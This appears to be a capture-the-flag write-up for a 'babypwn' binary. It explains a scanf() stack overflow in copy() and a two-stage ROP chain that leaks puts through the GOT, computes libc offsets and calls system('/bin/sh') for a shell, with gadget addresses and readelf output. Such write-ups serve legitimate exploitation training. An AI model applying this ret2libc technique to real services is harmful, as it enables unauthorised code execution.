 A x64 binary file:

babypwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=aceea8523337cd304e3835a461e68c809d12fc01, not stripped

ELF protections:

So there's no canary, no PIE and no Fortify.

![proctections](baby_0.png)

There's the function copy() that will allow to save data on the stack with no boundries using scanf() and will cause a stack-based buffer overflow vulnerability. Since there's no canary, it's possible to overwrite RIP and get $PC.

![vuln](baby_1.png)

The challenge provided the libc but since ASLR is enabled, we need to leak an address from the there for being able to calculate base address and any other function from the library.

In this case, it's possible to utilize the function puts() to leak any GOT entry, including puts itself. 

It is possible to use the utility "ropper" to dump useful gadgets from the binary since there's no PIE to random them.

![gadget](baby_2.png)

So the ROP will be:

pop_rdi; ret = 0x401203

puts_got     = 0x403fc8

puts_plt     = 0x401030

This will leak the puts@LIBC address and we can calculate the offset to any other function address based on that, in this case system().

From their libc:

root@mphx2-VM:/home/mphx2/ctfs/pwnuniversity/babypwn# readelf -s libc.so.6 | grep puts

   194: 0000000000072a40   441 FUNC    GLOBAL DEFAULT   14 _IO_puts@@GLIBC_2.2.5
   
   425: 0000000000072a40   441 FUNC    WEAK   DEFAULT   14 puts@@GLIBC_2.2.5
   
So the libc base address will be the leaked address (puts@LIBC) - 0x72a40. So the system():

root@mphx2-VM:/home/mphx2/ctfs/pwnuniversity/babypwn# readelf -s libc.so.6 | grep system

   235: 000000000012cc00   104 FUNC    GLOBAL DEFAULT   14 svcerr_systemerr@GLIBC_2.2.5

   613: 0000000000045380    45 FUNC    GLOBAL DEFAULT   14 __libc_system@@GLIBC_PRIVATE
  
  1417: 0000000000045380    45 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.2.5

So the system() will be libc base address + 0x45380.

We need to re-run the application for being able to execute functions again. At first, I tried to use main()=0x401169 but system() could not being executed mostly because the stack/registers were already populated. In the end, It was possible to re-run the scanf() using the function copy()=0x401146 from the binary and use system()+27 for executing /bin/sh.

So the first rop:

pop_rdi; ret = 0x401203

puts_got     = 0x403fc8

puts_plt     = 0x401030

copy         = 0x401146

The /bin/sh address is on the binary at 0x40302d but could be calculated from the libc too.

![binsh](baby_3.png)

And then the second rop:

pop_rdi; ret = 0x401203

bin_sh       = 0x40302d

system       = system@LIBC+27

And shell!

![shell](baby_4.png)

